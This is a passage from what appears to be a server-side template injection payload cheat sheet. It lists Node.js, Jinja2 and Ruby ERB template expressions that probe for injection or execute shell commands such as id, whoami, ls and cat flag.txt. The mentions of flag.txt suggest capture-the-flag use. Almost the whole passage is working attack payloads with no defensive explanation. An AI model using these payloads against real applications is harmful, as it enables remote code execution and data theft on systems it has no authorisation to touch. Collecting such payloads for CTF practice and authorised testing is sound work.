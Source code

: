 **Read files**
```js
#{root.process.mainModule.require('child_process').spawnSync('ls').stdout}
#{root.process.mainModule.require('child_process').spawnSync('ls', ['-lah']).stdout}

```

**RCE**
```js
#{root.process.mainModule.require('child_process').spawnSync('cat', ['flag.txt']).stdout}
```

### Python - Jinja2

**Basic Test**

```python
{{7*7}}    
```

**RCE**
```python
{{ [].__class__.__base__.__subclasses__() }}
{{ __import__('os').popen('id').read() }}
{{ __import__('os').popen('ls').read() }}
```
**RCE using globals and init method**
```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}

{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}
{{ config.__class__.__init__.__globals__['os'].popen('whoami').read() }}
{{ lipsum.__globals__["os"].popen('id').read() }}

```

**RCE using mro and base:**
```python
{{ [].class.base.subclasses() }}
{{ ''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
{{ [].class.__base__.subclasses() }}
{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output("ls")}
{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output(['cat', 'flag.txt'])}

```

### Ruby ERB

**Identify**
```ruby
<%= 7 * 7 %>
```
